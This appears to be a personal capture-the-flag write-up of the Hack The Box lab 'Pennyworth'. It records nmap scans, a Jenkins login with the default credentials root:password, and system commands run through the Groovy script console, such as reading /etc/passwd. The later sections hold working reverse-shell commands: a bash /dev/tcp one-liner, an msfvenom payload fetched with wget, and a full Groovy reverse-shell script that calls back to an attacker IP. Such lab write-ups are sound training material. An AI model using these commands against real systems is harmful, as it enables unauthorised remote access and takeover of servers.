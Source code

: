 # Pennyworth

> 10.129.59.175

## Nmap
```
nmap 10.129.59.175
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-03-14 21:37 EDT
Nmap scan report for 10.129.59.175
Host is up (0.049s latency).
Not shown: 999 closed tcp ports (conn-refused)
PORT     STATE SERVICE
8080/tcp open  http-proxy

Nmap done: 1 IP address (1 host up) scanned in 0.85 seconds
```

```
nmap -sS -sV -sC -O -p 8080 10.129.59.175
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-03-14 21:39 EDT
Nmap scan report for 10.129.59.175
Host is up (0.049s latency).

PORT     STATE SERVICE VERSION
8080/tcp open  http    Jetty 9.4.39.v20210325
|_http-title: Site doesn't have a title (text/html;charset=utf-8).
|_http-server-header: Jetty(9.4.39.v20210325)
| http-robots.txt: 1 disallowed entry 
|_/
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Aggressive OS guesses: Linux 4.15 - 5.8 (96%), Linux 5.3 - 5.4 (95%), Linux 2.6.32 (95%), Linux 5.0 - 5.5 (95%), Linux 3.1 (95%), Linux 3.2 (95%), AXIS 210A or 211 Network Camera (Linux 2.6.17) (95%), ASUS RT-N56U WAP (Linux 3.4) (93%), Linux 3.16 (93%), Linux 5.0 (93%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 2 hops

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 14.26 seconds
```

## Jetty
> Eclipse Jetty is a Java web server and Java Servlet container. While web servers are usually associated with serving documents to people, Jetty is now often used for machine to machine communications, usually within larger software frameworks.

## Jenkins
- Access the site: `http://10.129.59.175:8080`
- You get a login screen that says, "Welcome to Jenkins!" and asks for username and password.
- Found an nse script here: https://github.com/icarot/NSE_scripts/blob/master/jenkins-info.nse
  - Downloaded and just ran it...
```
nmap --script jenkins-info -p 8080 10.129.59.175
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-03-14 22:05 EDT
Nmap scan report for 10.129.59.175
Host is up (0.049s latency).

PORT     STATE SERVICE
8080/tcp open  http-proxy
| jenkins-info: 
|   Hudson Version: 1.395
|   Jenkins Version: 2.289.1
|   Jenkins Session ID: aa6c090a
|_  Server: Jetty(9.4.39.v20210325)

Nmap done: 1 IP address (1 host up) scanned in 0.44 seconds
```

Google search: "jenkins default credentials"
- Results: admin:password
- Didn't work. "admin" is a Windows login.
- **root:password** worked and I got in.

In order to get to the Groovy Script CLI page: 
> Jenkins features a [Groovy script console](https://www.jenkins.io/doc/book/managing/script-console/) which allows one to run arbitrary Groovy scripts within the Jenkins controller runtime or in the runtime on agents.
- The Script Console on the controller can be accessed from "Manage Jenkins" > "Script Console" (takes you to: `/cli`). Or by visiting the sub-URL `/script` on your Jenkins instance.
  - The former takes you to a list of "Available Commands," but I could not access the actual CLI.
  - Using the `/script` in the URL took me right to the CLI. 

----
> respawn: 10.129.212.139

I tried some arbitrary commands in the CLI: 
- `which bash` : gave me an error
- `ifconfig`   : gave me an error
- And so I Googled for help...

[How to Execute Commands in Groovy](https://groovy-lang.gitlab.io/101-scripts/basico/command_local-en.html)
- You need to use the `execute()` method.
- The following found [here](https://stackoverflow.com/questions/2701547/how-to-make-system-command-calls-in-java-groovy): 
  - The simplest way to invoke an external process in Groovy is to use the execute() command on a string. For example, to execute maven from a groovy script run this:
```
"cmd /c mvn".execute()
# if you want to capture the output of the command and maybe print it out, you can do this:
print "cmd /c mvn".execute().text
# the 'cmd /c' at the start invokes the Windows command shell. Since mvn.bat is a batch script you need this. For Unix you can invoke the system shell.
```

### Some stuff I tried:
```
"cat /etc/passwd ".execute().text          # that printed the /etc/passwd file
"ifconfig".execute().text                  # that showed me network info
"which bash".execute().text                # result: /usr/bin/bash
"bash --version".execute().text            # result: version 5.0.17(1)-release
"ping -c 5 10.129.212.139".execute().text  # got all pings returned okay
```

Therefore I can execute arbitrary system commands on the box as root. 

## Pwn
- The famous bash one-liner
### Set up a listener on my local/attack machine: 
```
nc -nvlp 1234     # TCP listener
nc -nvlup 1234    # UDP listener
```

### Executed the Bash One-Liner: 
```
/bin/bash -c 'bash -i &> /dev/tcp/10.10.14.170/1234 0>&1'
```
Did not work. Tried the following and nothing worked: 
```
# on the local machine
msfvenom -p linux/x64/shell_reverse_tcp LHOST=10.10.14.170 LPORT=1234 -f elf > shell-x64.elf
python3 -m http.server 80
# on the remote machine
"wget http://10.10.14.170/shell-x64.elf".execute().text
```

The wget executed but I could not get the shell executable to run on the target.
- Apparently in Groovy you need to create a cmd process that will execute the file.


## Walkthrough
- Jenkins exposures:
  - [A handbook including multiple ways of gaining Jenkins RCE's](https://cloud.hacktricks.xyz/pentesting-ci-cd/jenkins-security)
  - [A repository similar to the above, including links to scripts and tools](https://github.com/gquere/pwn_jenkins)

Since it only executes the Groovy commands, we will need to create a payload in Groovy to execute the reverse shell connection.
- In order to do that, we will need a specially crafted payload, which we can find in the following GitHub [cheatsheet](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md).
- He used the one here but cleaned it up a little by putting separate commands on each line (NOTE: you need to take out my #comments before running in Groovy).
```
String host="{your_IP}";    # Specify the IP address for the target to connect back to
int port=1234;              # Specify the port on which the attacker will listen on
String cmd="/bin/bash";     # Specify the shell type the attacker expects

# The rest of the script will instruct the target to create a cmd process which will initialize a connection request to the provided host and port (us, in this case). 
Process p=new ProcessBuilder(cmd).redirectErrorStream(true).start();Socket s=new
Socket(host,port);
InputStream pi=p.getInputStream(),pe=p.getErrorStream(),si=s.getInputStream();
OutputStream po=p.getOutputStream(),so=s.getOutputStream();while(!s.isClosed())
{while(pi.available()>0)so.write(pi.read());while(pe.available()>0)so.write(pe.read());
while(si.available()>0)po.write(si.read());so.flush();po.flush();Thread.sleep(50);try
{p.exitValue();break;}catch (Exception e){}};p.destroy();s.close();
```
